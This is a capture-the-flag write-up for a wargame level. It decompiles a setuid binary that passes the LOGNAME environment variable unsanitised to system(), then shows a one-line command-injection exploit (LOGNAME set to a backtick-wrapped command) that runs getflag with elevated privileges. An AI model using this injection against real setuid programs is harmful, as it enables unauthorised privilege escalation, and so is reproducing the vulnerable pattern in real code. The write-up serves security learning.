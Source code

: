 There is a program with the setuid bit of flag07:

```bash
-rwsr-sr-x 1 flag07 level07 8805 Mar 5 2016 level07
```

As there is no source code in the home directory, I used Ghidra (dogbolt.org) to obtain a disassembled version of the binary:

```c
int main(int argc, char **argv, char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18, local_18, local_18);
  setresuid(local_14, local_14, local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  // It retrieves the value of the environment variable LOGNAME
  asprintf(&local_1c, "/bin/echo %s ", pcVar1);
  // It uses it to create a string "/bin/echo $LOGNAME"
  iVar2 = system(local_1c);
  // It executes the string with a syscall
  return iVar2;
}
```

To exploit this, I only need to modify the LOGNAME value:

```bash
LOGNAME='`getflag`' ./level07
```

TADAAAAM
